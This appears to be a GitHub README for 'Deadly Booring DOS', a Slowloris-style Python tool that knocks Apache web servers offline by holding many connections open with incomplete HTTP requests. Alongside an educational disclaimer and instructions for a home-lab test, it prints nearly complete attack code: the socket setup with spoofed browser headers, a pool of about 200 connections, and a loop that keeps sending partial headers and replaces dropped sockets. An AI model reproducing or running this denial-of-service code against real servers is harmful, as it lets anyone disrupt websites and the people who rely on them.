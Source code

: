 # Deadly Booring DOS

Denial of Service attacks do not always have to flood the server with requests to make him shut down. Deadly Booring DOS takes a much more elegant appraoch: Instead sending as much data as possible, we send as little data as we can. 
DeadlyBooring is a free interpretation of SlowLoris DOS.

### *Preface*
Deadly Booring DOS was purely written for educational researches. I am going to explain how you can set up a simple appache website on one of your old machines that you can use to test DeadlyBooring. Never run such an attack against IP addresses that are not under your control. Never abuse the script to harm anybody. You got your own responsibility.

# The Idea
DeadlyBoorig DOS looks at DOS attacks from a different perspective. To understand how it works, we first need to understand internet protocols in general. What our browser is doing when we enter *http://www.github.com* is sending a HTTP GET Request to the IP address of the github servers (which is *192.30.253.113*, by the way) to the port 80, which is usually used to serve HTTP Requests. Such a HTTP GET request may say *"Please give me the /joelbarmettlerUZH/DeadlyBooring_DOS site"*, to which the github servers will respond with the corresponding HTML file. 

## HTTP GET Requests

The normal usage of such GET requests is to just type an URL into your browser, which then asks the DNS server to convert github.com into an IP and formulates the right GET request for all the content that needs to be displayed, such as images and scripts. The browser asks for data - the server responds - done. 

The interesting thing is that such HTTP GET requests follow a well defined schema: They start with the content the browser is asking for, followed by the used Protocol *(HTTP/1.1)*, ended with two line-break characters \n\n. As long as the server does not retreive these two newline characters, he is waiting for more data to come, thinking the browser has a temporary internet loss or simply a slow connection. Eventually, when the server does not hear anything from the browser for a bunch of seconds, he drops the connection to the browser again. This is quiet a normal behaviour. 

## Apache Servers
DeadlyBooring DOS is now making use of this server behaviours: Most of the internet servers (arround 50%) run on apache, an open source HTTP Server Project. Appache is built in a way that the server opens a new Thread for every user that is requesting content, answering his requests until it is done. A small server only has a limited amount of such threads he can have opened simultaniously - meaning he can only serve a limited amount of users at once. Normally, this is no problem at all, since small websites rarely have several hundret users that want to make a request to the werbserver in the same second. What DeadlyBooring DOS does is opening up connections to all threads on the appache webserver and making an unfinished HTTP GET Request every few seconds, which makes the thread wait for more data and therefore prevents the webserver from closing the connection. This means that we pretend to be several hundret users with a deadly slow internet connection, making the whole server wait for data to come, but we will never finish sending our incomplete requests every few seconds. 

While the server has all its threads dedicated to our script, the webserver will not answer any other GET requests from other users, since he is busy waiting for our nonsense data. Meanwhile, our computer barely needs any computing power since all we do is sending several hundrets tiny small data packages to a server every second - which is by no means a task you would even recognize running in your background. 

# The Code
The code is fairly simple and just under 50 lines. First, we create the DeadlyBooring class and provide it with information about to what IP we would like to lead our attack to, as well as the Port (80 is the standard port for webserver) and the number of parallel connections that we want to establish. Lastly, we fake some HTTP GET header information to make our requests plausible to the server.

```python
class DeadlyBooring():
    def __init__(self, ip, port=80, socketsCount = 200):
        self._ip = ip
        self._port = port
        self._headers = [
            "User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.5) Gecko/20091102 Firefox/3.5.5 (.NET CLR 3.5.30729)",
            "Accept-Language: en-us,en;q=0.5"
        ]
```

## Create sockets

Next, we want to create our sockets. We define a method that connects a new websocket with the dedicated protocol types to the IP and Port that we specified. We send him a first GET request and the HTTP header information. Some error handling ensures that an error would not lead the DOS to stop but would just try creating a new socket instead.

```python
    def newSocket(self):
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(4)
            s.connect((self._ip, self._port))
            s.send(self.getMessage("Get /?"))
            for header in self._headers:
                s.send(bytes(bytes("{}\r\n".format(header).encode("utf-8"))))
            return s
        except socket.error as se:
            print("Error: "+str(se))
            time.sleep(0.5)
            return self.newSocket()
```

Now we just have to create a list with a few hundrets of such sockets that we can then use for our DOS attack.

```python
self._sockets = [self.newSocket() for _ in range(socketsCount)]
```

## Attack-method
Now let's finally write the attack method. It is actually really simple: For all sockets, we send a get request with the *X-a* header field, keeping the request open and making the server wait for the rest of the data. After each sent request, we wait vor a short period of time before sending the next one, with making sure that every socket sends data at least once every couple of seconds so that the connection is not lost. Every lost socket is immediatelly replaced with a new one taking its place, guaranteeing that free server threads are populated again. 

```python    
    def attack(self, timeout=sys.maxsize, sleep=15):
        t, i = time.time(), 0
        while(time.time() - t < timeout):
            for s in self._sockets:
                try:
                    print("Sending request #{}".format(str(i)))
                    s.send(self.getMessage("X-a: "))
                    i += 1
                except socket.error:
                    self._sockets.remove(s)
                    self._sockets.append(self.newSocket())
                time.sleep(sleep/len(self._sockets))
```

# Testing
In order to test our code, we need to create a protected environment, since we can not just start a DOS attack on some server that we do not own. As a simple option, you can use some old hardware and run [wamp](http://www.wampserver.com/en/) on it. Install and run WAMPServer on your second device and test the connection by visiting [localhost:80](localhost:80), which should give you the default wamp interface, indicating that your server is running. If you want to go fancy, create a simple HTML file in the *www* directory where you installed whamp. Now open the command promt on your second device and run 
```sh
ipconfig
```
which will give you your local IP-Address (lets assume here that the devices IP is 192.168.0.33). Test the connection to your second device via typing "192.168.0.33:80" into your browser, letting you directly access the webpage you created on your second device. If you see nothing, make sure both devices are connected to the same router, your WAMP is running and no firewall is blocking the access. Otherwise, make sure that in the WAMP httpd_config file, you set the restrictions to LOCAL (google for further instructions). If it works, try calling DeadlyBooring on the same IP on Port 80. Refresh your page and you will see that you will get no response from the server (note that the website may be cashed, so you will sill see the page). 

License
----

MIT License

Copyright (c) 2018 Joel Barmettler

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

By the way, I am an [AI Engineer from Zurich](https://joelbarmettler.xyz/) and do [AI research](https://joelbarmettler.xyz/research/), [AI Keynote Speaker](https://joelbarmettler.xyz/auftritte/) and [AI Webinars](https://joelbarmettler.xyz/auftritte/webinar-2024-rewind-2025-ausblick/) in Zurich, Switzerland!
